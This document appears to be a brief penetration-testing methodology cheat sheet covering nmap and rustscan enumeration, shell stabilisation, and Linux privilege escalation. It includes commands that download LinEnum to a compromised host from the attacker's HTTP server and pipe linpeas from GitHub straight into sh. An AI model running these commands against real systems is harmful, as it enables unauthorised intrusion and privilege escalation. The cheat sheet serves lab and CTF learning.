 ## Setting
1.export ip=10.10.10.10\
1.5 make directory for nmap result: mkdir nmap && cd nmap
## Ennumeration
2. `nmap -sC -sV -p- -Pn $ip --open -oN result   AND  rustscan -a $IP and rustscan -a $IP`.\ 
3. Check which ports are open. Take note of service running and versions(for searchsploit)\
4. Manual ennumeration. Visit the open ports to see if we can get initial foothold information. e.g anoymous login, default login,etc\
5. Check for vulnerabiltieis on specific ports using nmap script `nmap -p 80,445,139 --script=*vuln* $IP`
## Using searchsploit, payload, revershell 

## Getting a reverseshell(stable)

## Privilege Escalation
0. Stabalize shell `python3 -c 'import pty; pty.spawn("/bin/bash")'` `export TERM=xterm-256color` \
1.Automated scan for vulnerabilities or manual ennumeration.\
2.Create a directory and a a linEnum.sh file. Copy paste the content from https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh \
3.Host a python server `python3 -m http.server 8080` `or( 80)` to transfer the linEum.sh\
3.5 
4.From the reverse shell, `wget http://$myIP:8080/linEum.sh .` to recieve linEum.sh if we get permission denied  `cd /tmp` \
5.Give access. `chmod +x linEum.sh` and `./linEum -t` \
6. If file transfer premission is denied, simply `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh` which would execute script.

 
